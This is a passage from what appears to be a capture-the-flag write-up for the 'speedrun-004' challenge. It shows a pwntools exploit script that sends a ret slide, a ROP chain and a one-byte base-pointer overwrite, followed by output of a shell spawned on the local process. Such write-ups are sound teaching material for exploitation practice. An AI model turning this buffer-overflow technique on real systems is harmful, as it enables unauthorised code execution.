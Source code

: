```
# Make the payload
# Append the rop chain to after the retslide
# Overwrite least significant byte of saved base pointer with 0x00
payload = ret*((256 - len(rop)) / 8) + rop + "\x00"

# Specify we are sending 257 bytes
target.sendline('257')

# Pause to ensure I/O purposes
raw_input()

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:
```
$ python exploit.py 
[+] Starting local process './speedrun-004': pid 13513
w
[*] Switching to interactive mode
i think i'm getting better at this coding thing.
how much do you have to say?
Ok, what do you have to say for yourself?
Interesting thought "\x16\x04@", I'll take it into consideration.
$ w
 23:52:39 up  3:19,  1 user,  load average: 2.04, 1.92, 1.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               20:33   ?xdm?  19:47   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  speedrun-004
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './speedrun-004' stopped with exit code -14 (SIGALRM) (pid 13513)
```

Just like that, we got a shell!

